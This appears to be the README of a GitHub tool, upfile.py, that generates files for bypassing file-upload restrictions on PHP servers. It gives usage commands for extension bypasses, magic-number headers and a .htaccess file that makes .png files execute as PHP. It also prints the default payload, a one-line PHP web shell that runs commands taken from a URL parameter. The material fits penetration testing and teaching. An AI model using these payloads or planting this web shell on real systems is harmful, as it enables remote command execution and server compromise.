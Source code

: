 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

```
python upfile.py
```
Generate in `Payloads/` all extension for PHP

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

-----

## Exemple of usage :
```
python upfile.py -b
```
Generate all bypass for PHP


```
python upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


```
python upfile.py -ext png -ht png
```
Generate `.htaccess` which allow execution of php whith extension .png and create `paylaod.png`

-----

## Options
```
usage: upfile.py [-h] [-d] [-p <payload>] [-f {php}] [-ext <ext>] [-b] [-n <name>] [-m {png,jpg}] [-ht <ext>]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Seen the debug to see the process
  -p <payload>, --payload <payload>
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext <ext>, --extension <ext>
                        Generate the payload with specific extension
  -b, --bypass          Bypass the restriction
  -n <name>, --name <name>
                        Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header, add the magics numbers before the payload
  -ht <ext>, --htaccess <ext>
                        Creates in addition a .htaccess file, which allow execution of php whith extension that you
                        have chosen
   ```                     
